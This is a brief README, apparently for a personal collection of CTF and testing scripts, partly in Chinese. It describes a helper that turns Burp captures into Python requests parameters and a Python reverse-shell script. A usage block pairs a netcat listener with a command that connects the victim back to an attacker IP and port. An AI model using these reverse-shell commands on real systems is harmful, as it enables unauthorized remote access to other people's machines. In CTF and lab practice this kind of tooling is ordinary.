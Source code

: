 # Scripts
some scripts

## ctfs

更方便使用 requests 库进行web测试

* 模块功能：

```
1. 解析 burp 文件， 返回相应参数， 可传递给 requests
2. header
``` 

## shell

### python

* re_shell.py

> 反弹shell

```
# attack
nc -lvp attack_port 

# victim
python re_shell.py attack_ip attack_port
```